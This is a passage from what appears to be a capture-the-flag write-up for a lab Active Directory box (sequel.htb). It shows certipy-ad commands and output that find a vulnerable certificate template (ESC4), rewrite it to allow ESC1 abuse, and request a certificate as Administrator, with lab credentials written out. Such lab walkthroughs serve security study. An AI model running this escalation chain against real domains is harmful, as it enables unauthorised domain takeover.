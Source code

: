 ## ca_svc

`CA` stands for certificate authority, using certipy-ad to find vulnerable certificate templates:

```bash
$certipy-ad find -u 'ca_svc' -p w1ld@ssword2022 -dc-ip 10.129.137.51 -vulnerable -enabled
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'sequel-DC01-CA'
[*] Saved BloodHound data to '20250112235054_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20250112235054_Certipy.txt'
[*] Saved JSON output to '20250112235054_Certipy.json'
```

Looking in `20250112235054_Certipy.json` we can check for vulnerabilities detected by `certipy`

```json
"Template Name": "DunderMifflinAuthentication"
<SNIP>
"[!] Vulnerabilities": {
     "ESC4": "'SEQUEL.HTB\\\\Cert Publishers' has dangerous permissions"
```

With this vulnerability I try exploiting ESC1, uploading the template is successful, however encounter a DNS error when requesting certificates:

```bash
$ certipy-ad req -u ca_svc -p w1ldP@ssword2022 -target sequel.htb -dns sequel.htb -ca sequel-dc01-ca -upn Administrator -template DunderMifflinAuthentication
[-] Got error while trying to request certificate: code: 0x8009480f - CERTSRV_E_SUBJECT_DNS_REQUIRED - The Domain Name System (DNS) name is unavailable and cannot be added to the Subject Alternate name.
```

update the template to bypass the error:

```diff
 Certificate Name Flag               : SubjectRequireCommonName
-                                      SubjectAltRequireDns
```

Upload our template on the box (certipy is configured to make it vulnerable to ESC1 by default):

```bash
$ certipy-ad template -u ca_svc -p w1ldP@ssword2022 -template DunderMifflinAuthentication -save-old -dc-ip 10.129.137.51
```

